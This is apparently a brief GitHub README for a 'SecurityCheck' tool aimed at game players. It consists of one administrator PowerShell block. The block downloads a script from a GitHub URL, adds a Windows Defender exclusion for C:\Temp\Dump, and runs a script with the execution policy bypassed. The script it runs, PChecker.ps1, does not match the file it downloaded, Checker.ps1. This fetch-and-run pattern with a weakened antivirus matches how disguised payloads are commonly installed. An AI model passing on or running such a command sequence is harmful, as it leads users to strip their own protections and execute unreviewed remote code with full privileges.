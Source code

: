 # SecurityCheck
For check players

## Start (PowerShell Admin):
New-Item -Path "C:\Temp" -ItemType Directory -Force | Out-Null;
Set-Location "C:\Temp";
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Brevzor/SecurityCheck/main/Checker.ps1" -OutFile "Checker.ps1";
Add-MpPreference -ExclusionPath 'C:\Temp\Dump' | Out-Null; powershell -ExecutionPolicy Bypass -File "C:\Temp\PChecker.ps1";